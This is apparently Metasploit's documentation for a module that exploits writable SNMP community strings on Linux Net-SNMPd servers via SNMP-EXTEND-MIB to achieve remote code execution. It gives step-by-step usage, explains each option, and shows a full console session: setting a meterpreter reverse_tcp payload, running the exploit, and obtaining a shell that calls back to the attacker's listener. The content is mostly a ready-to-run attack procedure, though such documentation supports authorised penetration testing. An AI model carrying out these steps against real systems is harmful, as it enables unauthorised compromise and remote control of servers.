 ## Vulnerable Application

  This module uses SNMP extension MIBs to enable remote code execution on the Linux Net-SNMPD servers using the 
  SNMP-EXTEND-MIB.

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/linux/snmp/net_snmpd_rw_access`
  3. Do: `set rhost [IP]`
  4. Do: `set community [SNMP Community]`
  5. Do: `set version [SNMP Version]`
  6. Configure the payload
  7. Do: `run`
  8. You should get a session

## Options
  This module accepts 'RHOST' and 'RPORT' to specify target address and port respectively.  
  'FILEPATH' specifies where to write the executable out to on the target. Needs to be writable by the SNMP service user. This defaults to /tmp.  
  'COMMUNITY' is a read/write community string of the target Net-SNMP service.  
  'VERSION' selects the SNMP protocol version. Accepted values are '1' or '2c'.  
  'CHUNKSIZE' is the maximum amount of payload bytes to write in a single operation. This value was found through experimentation and may not be suitable in all environments.  
  'TIMEOUT' specifies the maximum time to allow SNMP to timeout.

## Scenario

  ```
  msf > use exploit/linux/snmp/net_snmpd_rw_access 
  msf exploit(linux/snmp/net_snmpd_rw_access) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/snmp/net_snmpd_rw_access) > set rhost 192.168.1.3
  rhost => 192.168.1.3
  msf exploit(linux/snmp/net_snmpd_rw_access) > set lhost 192.168.1.2
  lhost => 192.168.1.2
  msf exploit(linux/snmp/net_snmpd_rw_access) > set community private
  community => private
  msf exploit(linux/snmp/net_snmpd_rw_access) > set version 2c
  version => 2c

  msf exploit(linux/snmp/net_snmpd_rw_access) > show info
  
         Name: Net-SNMPd Write Access SNMP-EXTEND-MIB arbitrary code execution
       Module: exploit/linux/snmp/net_snmpd_rw_access
     Platform: 
         Arch: 
   Privileged: No
      License: Metasploit Framework License (BSD)
         Rank: Normal

  Provided by:
    Steve Embling at InteliSecure

  Available targets:
    Id  Name
    --  ----
    0   Linux x86

  Basic options:
    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    CHUNKSIZE  200              yes       Maximum bytes of payload to write at once 
    COMMUNITY  private          yes       SNMP Community String
    FILEPATH   /tmp             yes       file path to write to 
    RETRIES    1                yes       SNMP Retries
    RHOST      192.168.1.3      yes       The target address
    RPORT      161              yes       The target port (UDP)
    TIMEOUT    1                yes       SNMP Timeout
    VERSION    2c               yes       SNMP Version <1/2c>

  Payload information:
    Space: 4096

  Description:
    This exploit module exploits the SNMP write access configuration 
    ability of SNMP-EXTEND-MIB to configure MIB extensions and lead to 
    remote code execution.

  References:
    https://www.intelisecure.com

  msf exploit(linux/snmp/net_snmpd_rw_access) > run

  [*] Started reverse TCP handler on 192.168.1.2:4444 
  [*] Writing to NET-SNMP-EXTEND-MIB with given payload
  [*] Payload generated. Sending in 200 byte chunk increments.
  [*] Sent chunked executable. Now executing payload
  [*] Sending stage (849108 bytes) to 192.168.1.3
  [+] SNMP request timeout (this is promising).

  meterpreter > exit
  [*] Shutting down Meterpreter...
 
  [*] 192.168.1.3 - Meterpreter session 1 closed.  Reason: User exit
  ```
